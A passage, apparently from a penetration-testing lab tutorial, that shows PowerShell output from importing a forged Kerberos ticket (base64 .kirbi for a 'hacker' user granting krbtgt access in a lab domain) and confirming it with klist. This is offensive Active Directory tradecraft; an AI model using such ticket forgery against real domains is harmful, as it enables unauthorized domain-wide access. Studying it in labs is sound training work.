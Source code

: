 ```powershell-session
[*] EndTime        : 3/29/2022 8:06:41 PM
[*] RenewTill      : 4/5/2022 10:06:41 AM

[*] base64(ticket.kirbi):
      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
      T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
      VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy
      k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc
      g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm
      9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY
      acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz
      X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT
      3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H
      WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG
      Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo
      /RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B
      aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/
      OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3
      sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH
      eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW
      sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ
      F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
      Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T
      JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
      YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy
      MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
      Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

[+] Ticket successfully imported!
```

Once again, we can check that the ticket is in memory using the `klist` command.

#### Confirming the Ticket is in Memory Using klist

```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6495

Cached Tickets: (1)

#0>	Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
	Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
	KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
	Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
	Start Time: 3/29/2022 10:06:41 (local)
	End Time:   3/29/2022 20:06:41 (local)
	Renew Time: 4/5/2022 10:06:41 (local)
	Session Key Type: RSADSI RC4-HMAC(NT)
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 
```
